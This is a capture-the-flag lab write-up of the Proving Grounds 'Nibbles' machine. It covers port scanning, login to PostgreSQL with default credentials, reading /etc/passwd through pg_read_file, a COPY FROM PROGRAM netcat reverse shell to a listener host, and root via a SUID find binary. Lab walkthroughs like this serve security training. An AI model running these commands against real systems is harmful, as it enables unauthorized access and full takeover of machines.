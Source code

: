 ```yaml
---
title: Proving Grounds - Nibble
date: 2022-09-22 12:00:00 -500 
categories: [Proving Grounds]
tags: [oscp,linux]
---
```


# Nibbles Overview

Machine Details:

|IP|Hostname|Operating System|
|---|---|---|
|192.168.82.47|Nibbles|Linux|

## Path to Exploitation
Nibbles is a box that requires us to attack a PostgreSQL server with weak credentials to gain access to the machine. From there, we abuse a vulnerable binary with the sticky bit (suid) to escalate to root. 

# Nibbles Enumeration

## Full Port Scan

I ran the following command:

```bash
nmap -Pn -p- 192.168.82.47 -oA nmap/full-port --open
```

Which resulted in the following:

|Port|Service|
|---|---|
|21|ftp|
|22|ssh|
|80|http|
|5437|pmip6-data|

## Service Scan

I also ran a service scan on the found ports:

```bash
nmap -Pn -p 8080,12445,18030,43022 -sC -sV -oA nmap/service-scan 192.168.82.47
```

And found the following:

|Port|Service|Version|
|---|---|---|
|21|ftp|vsftpd 3.0.3|
|22|ssh|OpenSSH 7.9p1|
|80|http|Apache httpd 2.4.38|
|5437|postgresql|PostgreSQL DB 11.3 - 11.7|

# PostgreSQL

Default credentials are enabled for the DB server

```bash
psql -h 192.168.82.125 -U postgres -p 5437
```

Enter the password "postgres" when prompted

![PostgreSQL Default Credentials](/assets/ProvingGrounds/Nibbles/default-creds.png)

## Enumerating the Database
We are logged in as the postgres user, who is also the superuser

![Super User Access](/assets/ProvingGrounds/Nibbles/super-user.png)

Can use the pg_read_file method to read files on the machine

```bash
select pg_read_file('/etc/passwd', 0, 100000); 
```

![Reading /etc/passwd](/assets/ProvingGrounds/Nibbles/etc-passwd.png)

There are two users (excluding the root user) that have logins:

- wilson
- postgres

We can use the pg_ls_dir method to print directory contents:

```bash
select pg_ls_dir('/home/wilson');
```

![Targeting the Wilson User](/assets/ProvingGrounds/Nibbles/target-user.png)

So we can see that wilson is the use with the local flag
 
# Shell on Nibbles

## PostgreSQL RCE
[PostgreSQL RCE](https://r3dbuck3t.notion.site/Port-5432-PostgreSQL-f79a353c88bc4aed893233717573f06c)

```bash
CREATE TABLE shell(output text);
```

```bash
COPY shell FROM PROGRAM 'rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 192.168.49.63 80 >/tmp/f';
```

Setup a listener to catch the shell

![Catching a Reverse Shell](/assets/ProvingGrounds/Nibbles/rev-shell.png)

We already know the location of the local flag, time to grab that 

![Local Flag](/assets/ProvingGrounds/Nibbles/local-flag.png)

# Privilege Escalation
The `find` binary has the SUID bit set, GTFOBins has an entry for it here: https://gtfobins.github.io/gtfobins/find/

![SUID Binary](/assets/ProvingGrounds/Nibbles/suid-binary.png)

Follow the instructions from GTFOBins and run the following command

```bash
/usr/bin/find . -exec /bin/sh -p \; -quit
```

results in a root shell

![Root Shell](/assets/ProvingGrounds/Nibbles/root-shell.png)